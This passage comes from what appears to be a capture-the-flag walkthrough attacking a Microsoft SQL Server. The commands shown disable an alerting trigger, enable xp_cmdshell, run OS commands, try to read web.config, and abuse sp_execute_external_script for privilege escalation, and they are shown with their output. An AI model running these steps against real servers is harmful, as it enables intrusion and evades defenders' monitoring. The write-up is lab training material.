 I just need the [syntax to disable it](https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/#triggerremoval).

```bash
SQL (df  dbo@master)> disable trigger ALERT_xp_cmdshell on all server
SQL (df  dbo@master)> 

```

with that, we can now enable `xp_cmdhsell` and it worked as seen below.

```bash
SQL (df  dbo@master)> enable_xp_cmdshell
INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (df  dbo@master)> xp_cmdshell whoami
output                        
---------------------------   
nt service\mssql$poo_public   

NULL                          

```

## Privilege escalation

`mssql$poo_public` has limited access. While there is a home directory, it is empty. The user has some access to the web directory, but the most notable file, `\inetput\wwwroot\web.config`, returns an access denied error:

```bash
SQL (df  dbo@master)> xp_cmdshell type C:\inetpub\wwwroot\web.config
output              
-----------------   
Access is denied.   

NULL  
```

It appears that when a web server is configured to run the stored procedure `sp_execute_external_script` under a different user account, it allows for certain operations. The syntax for executing the script is [quite straightforward](https://nielsberglund.com/2017/04/20/sql-server-2017---python-executing-inside-sql-server/):

```bash
SQL (df  dbo@master)> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';

INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
compatibility\poo_public01

Express Edition will continue to be enforced.

```
